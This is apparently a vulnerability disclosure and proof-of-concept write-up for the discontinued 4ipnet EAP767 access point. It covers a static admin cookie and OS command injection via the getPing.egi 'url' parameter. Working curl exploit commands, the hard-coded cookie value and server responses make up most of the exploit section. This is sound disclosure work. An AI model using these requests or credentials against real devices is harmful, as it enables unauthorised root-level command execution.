 # 4ipnet/EAP767 WRT Vulnerabilities
## Overview
4ipnet/EAP767 WRT is vulnerable to Incorrect Access Control and OS Command Injection
## Products Affected
EAP767 - 3.42.00
## Description
- The device is vulnerable to Incorrect Access Control. It uses the same set of credentials, regardless of how many times a user logs in, the content of the cookie remains unchanged.
- A OS command injection vulnerability was found within the web interface of the device.
## Impact
An attacker may inject arbitrary shell commands with valid credentials, and it be executed by the device with root privileges.
## Solution
- Stop using the products and switch to alternative products
- The developer has disbanded in Oct 2020, and the firmware updates will not be provided.
## Mitigation 
- Disable internet access. 
- Change default credential.
## Device Features 
The login web page is exposed to internet, and it's used for 4ipnet wireless network controller
> Search online documents to obtain the default password for the device.

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_247c7496749603bc7b9772d11afd7ba4.png)

**Web console features**

System Overview
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_fa6cb02d32f831033c013c4142586a4f.png)

Network Utilities
`allowing network tests such as ping, tracert, arping, etc., to be performed through the web page.`
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_9925e6bd58df1d54d022f404504adbef.png)

## Exploit
**Phase 1 @ Browser**

The front-end performs input text validation to check whether the input text is compliant
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_0d41715f59b4037ce1b9dcea6c9d31ce.png)

Turn to the backend, analysis HTTP request characteristics from the network
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_b87e4fa1fea137d1feba67001f4ca104.png)
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_354d5ac2dd8284e800fa818cf166f489.png)


We gather two http request characteristics.
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
> It can be observed that its ping function first sends the url as a query string parameter, obtains the pid, then retrieves ping output in batches through the pid parameter, and finally presents the results on the web page

It was found that the management interface relies solely on the cookie name/value as the basis for user identification
> Using the same set of credentials (admin), regardless of how many times you log in, the content of the cookie remains unchanged.

| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_3ecdb0b545bf10be16816293036534e8.png)


**Phase 2 @ cmd**

Using the curl tool to simulate an HTTP request to access the management interface home page, it was redirected to the login page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_f3925ef9b1edaae1b762ad800322d80d.png)

Using the curl tool to simulate an HTTP request and including the aforementioned obtained cookie, it was confirmed that access to the authenticated management interface home page is possible
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_a76b368249757b325d6f3bcc4ab24d88.png)

Attempted to access the `getPing.egi` file and escape the query string parameter url using special characters (;, |) in an attempt to evade security and inject a specified command

**Attemp 1 with `;`**
Detected as invalid characters by the backend program.
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_6b5b52a9a94d27f7ace8850892ba7f77.png)

**Attemp 2 with `|`**
Successful escape!!! and obtained pid!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_77cdaa3fe2e0c85b8506ec8aa926a65b.png)

Inject Target with `ls` to list the current directory.
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_686276a082e16b2f204e75e987d55b0f.png)

Inject Target with `ls -l` to display the current directory structure, file permissions, file types, modification dates, and other information."
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_caee4f89b8ef4271c2f50521c479fe61.png)



## Verify the device product and model.
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_c8581cfbd913fe193766cbad839cefc7.png)

## Conclusion
The presence of a Remote Code Execution (RCE) vulnerability is in the product. Arbitrary commands can be executed by passing the url parameter.

## Reference
- https://hkitblog.com/12770/
- https://www.lienshen.com.tw/sidebar1_01-2-11.html
- https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1
